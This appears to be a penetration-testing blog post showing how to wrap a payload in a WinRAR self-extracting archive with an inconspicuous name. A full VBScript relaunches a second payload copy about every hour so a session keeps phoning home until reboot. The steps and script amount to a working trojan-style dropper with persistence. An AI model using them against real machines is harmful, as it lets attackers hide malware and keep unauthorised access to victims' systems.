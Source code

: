 ```yaml
---
layout: post
title: Semi-Persistence
summary: How to get some semi-persistence using VBScript
---
```

     

Persistence is a great thing to have on a pentest, especially if testing from the outside. Persistence also seems to be a word that makes clients' hairs on the back of their necks stand up. Backdoors are a scary thing if you're in charge of keeping a network secure.

When it comes to installing persistence, there are quite a few options available such as Metasploit's persistence module or `scheduleme.rb`. These modules leave a permanent, like one would think, payload and schedule for phoning home to the tester's box. But what about when this is out of scope? 

Here's a method to keep a payload phoning home but leaves no permanent effects. 

Using WinRAR, we can pack our payload with a vbscript that sleeps for 60 minutes and then restarts the payload. 
With WinRAR installed, right click your favorite payload and select WinRar > Add to archive…
The window below will pop up. Select Create SFX archive and keep the Archive format set to RAR. You should also give your payload wrapper an inconspicuous name.



![]({site.url}}/assets/semipersistence1.png){:height="400px"}


Now duplicate the payload that you just right-clicked and call it something different, it's renamed to `persistence_payload.exe` here. This will be the secondary payload that is run every 60-ish minutes. Why not just use the one payload? Just in case you can't migrate of off the original process, a second one is used for the persistence for safety.


Now create a text file named `persistence_script.vbs` and paste the following within it:

```vb
function launchit()
  WScript.sleep 90000
  set shell = createobject("wscript.shell")
     shell.run "persistence_payload.exe"
  WScript.sleep 90000
  killit()
end function

function killit()
  set objWMIService = GetObject ("winmgmts:")
  foundProc = False
  procName = "persistence_payload.exe"

  for each Process in objWMIService.InstancesOf ("Win32_Process")
        If StrComp(Process.Name,procName,vbTextCompare) = 0 then
            foundProc = True
            procID = Process.ProcessId
        End If
  Next
  If foundProc = True Then
        Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process where ProcessId =" &  procID)
        For Each objProcess in colProcessList   
            objProcess.Terminate()
        Next
        WScript.Sleep(1000) 'wait for a second
        Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process where ProcessId =" &  procID)
        If colProcessList.count = 0 Then
            WScript.Sleep(3600000)
            launchit()
        End If
  End If
end function

launchit()
```

Change the `persistence_payload.exe` line to match your persistent payload's name. After saving this, right click the payload wrapper and select WinRAR > Open with WinRAR. Then drag the persistent payload and `persistence_script.vbs` into WinRAR. You should end up with this:


![]({{site.url}}/assets/semipersistence2.png){:width="90%"}


Almost there, but we need this executable to do something when the victim clicks on it. Click the SFX button in the ribbon. Then under the SFX tab, select Advanced SFX Options. 
Now we have a number of options we can set, such as having this executable extract to a specified folder (`C:/Temp` maybe?), set the Overwrite mode to Overwrite all files (Update tab), and tell WinRAR what to run upon extraction.
After setting the first two options, open the Setup tab and in the Run after extraction box, enter the name of your normal payload (`payload.exe` here) and the VBScript (`persistence_script.vbs`). 

![]({{site.url}}/assets/semipersistence3.png){: width="325px"}


Now when the payload is run, it will run as expected (by calling `payload.exe`) and in Task Manager, a `wscript.exe` process will run waiting to re-rerun `persistence_payload.exe` every 60-ish minutes. Before re-running the payload, it will kill the process if it's still running so if you can't migrate you will lose that session -- best to keep it as a backup in those instances. 

Restarts and logoffs will kill `wscript.exe` resulting in the persistence being lost-- no worries about a permanent backdoor. This method can also be used to launch the initial payload multiple times when first run, if you experience flakiness issues with payloads.

